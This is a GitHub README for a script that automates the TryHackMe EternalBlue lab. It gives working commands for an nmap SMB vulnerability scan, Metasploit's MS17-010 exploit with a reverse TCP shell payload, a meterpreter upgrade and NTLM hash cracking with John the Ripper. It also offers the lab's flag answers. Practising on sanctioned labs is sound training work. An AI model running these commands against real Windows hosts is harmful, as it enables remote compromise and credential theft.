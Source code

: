 # 🔐 EternalBlue Lab Automation Script – TryHackMe

> 🧠 **For Educational Use Only**  
> Automates the EternalBlue exploitation lab on TryHackMe including scanning, exploiting MS17-010, and capturing flags.

---

## 📁 Features

- 📖 **Lab Description** with detailed background on EternalBlue
- 📋 **Checklist** to keep track of key lab tasks
- 🔌 **VPN Connection Setup** with `.ovpn` file
- ⚔️ **Metasploit-based Exploitation** using EternalBlue
- 🧠 **Post-Exploitation Commands** for Meterpreter shell
- 🔐 **Password Hash Cracking** with John the Ripper
- 🏁 **Flag Discovery** with hints and answers
- ![image](https://github.com/user-attachments/assets/379b023e-0c63-49b1-9189-db3ef3e34d4b)


---

## 🚀 How to Use
```bash

git clone https://github.com/Kun31-cpu/Eternalblue-lab.git
cd eternalblue-lab
chmod +x eternalblue-lab.sh
dos2unix eternalblue-lab.sh
./eternalblue-lab.sh

🧪 Menu Options
Option	Description
1️⃣	View Lab Description
2️⃣	View Task Checklist
3️⃣	Connect to VPN Only (.ovpn file required)
4️⃣	Start Full Exploitation Lab
5️⃣	View Questions and Answers for THM tasks
6️⃣	Exit

🛠️ Tools Used
OpenVPN – VPN connection to TryHackMe network

Nmap – Port scanning and vulnerability detection

Metasploit – Exploitation of MS17-010 (EternalBlue)

John the Ripper – Cracking NTLM hashes

nmap -p 445 --script smb-vuln* <TARGET_IP>

# Metasploit
use exploit/windows/smb/ms17_010_eternalblue
set RHOSTS <TARGET_IP>
set LHOST <YOUR_IP>
set PAYLOAD windows/x64/shell/reverse_tcp
exploit -j

# Post Exploitation
use post/multi/manage/shell_to_meterpreter
set SESSION <session_id>
exploit -j

# Cracking Passwords
john hash.txt --wordlist=/usr/share/wordlists/rockyou.txt

🎯 Learning Objectives
✅ Understand EternalBlue and MS17-010
✅ Identify vulnerable SMB services
✅ Exploit Windows targets with Metasploit
✅ Practice real-world post-exploitation
✅ Learn ethical hacking techniques responsibly

⚠️ Disclaimer
This script is strictly for educational purposes.
Do NOT scan, exploit, or access unauthorized systems.
Always follow legal and ethical guidelines.

👨‍💻 Author
Kuntal Bera
Cybersecurity Student | Ethical Hacking Enthusiast

⭐ Give it a Star!
If you found this useful, consider starring the repository ❤️

⭐ github.com/yourname/eternalblue-lab
